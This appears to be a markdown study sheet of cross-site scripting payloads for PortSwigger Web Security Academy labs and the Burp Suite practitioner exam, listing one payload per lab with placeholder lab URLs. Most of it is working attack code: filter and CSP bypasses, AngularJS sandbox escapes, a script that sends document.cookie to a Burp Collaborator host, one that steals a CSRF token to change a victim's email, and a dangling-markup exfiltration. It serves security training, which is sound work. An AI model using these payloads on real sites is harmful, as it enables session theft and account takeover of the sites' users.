 [teal-cookie-payloads](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/payloads/CookieStealer-Payloads.md)

[XSS Cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### test xss
```
jQuery selector sink using a hashchange event
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
```
Reflected XSS into attribute with angle brackets HTML-encoded
"onmouseover="alert(1)
```
```
Stored XSS into anchor href attribute with double quotes HTML-encoded
href=javascript:alert(1)
```
```
Reflected XSS into a JavaScript string with angle brackets HTML encoded
'-alert(1)-'
```
```
DOM XSS in document.write sink using source location.search inside a select element
product?productId=1&storeId="></select><img%20src=1%20onerror=alert(1)>
```
```
DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded
HTML nodes containing the ng-app attribute
{{$on.constructor('alert(1)')()}}
```js
Reflected DOM XSS
\"-alert(1)}//
{"searchTerm":"\\"-alert(1)}//", "results":[]}
```
```
Stored DOM XSS (comment)
<><img src=1 onerror=alert(1)>
```
```
Reflected XSS into HTML context with most tags and attributes blocked
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```
```
Reflected XSS into HTML context with all tags blocked except custom ones
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```
```
Reflected XSS with some SVG markup allowed
https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Csvg%3E%3Canimatetransform%20onbegin=alert(1)%3E
```
```
Reflected XSS in canonical link tag
https://YOUR-LAB-ID.web-security-academy.net/?%27accesskey=%27x%27onclick=%27alert(1)
```
```
Reflected XSS into a JavaScript string with single quote and backslash escaped
</script><script>alert(1)</script>
```
```
Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped
${alert(1)}
```
```
Exploiting cross-site scripting to steal cookies
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
```
Exploiting XSS to bypass CSRF defenses
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
```
Reflected XSS with AngularJS sandbox escape without strings
https://YOUR-LAB-ID.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```
```
Reflected XSS with AngularJS sandbox escape and CSP
<script>
location='https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```
```
Reflected XSS with event handlers and href attributes blocked
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Csvg%3E%3Ca%3E%3Canimate+attributeName%3Dhref+values%3Djavascript%3Aalert(1)+%2F%3E%3Ctext+x%3D20+y%3D20%3EClick%20me%3C%2Ftext%3E%3C%2Fa%3E
```
```
Reflected XSS in a JavaScript URL with some characters blocked
https://YOUR-LAB-ID.web-security-academy.net/post?postId=5&%27},x=x=%3E{throw/**/onerror=alert,1337},toString=x,window%2b%27%27,{x:%27
```
```
Reflected XSS protected by very strict CSP, with dangling markup attack
<script>
if(window.name) {
		new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
		} else {
     			location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```
```
Reflected XSS protected by CSP, with CSP bypass
https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```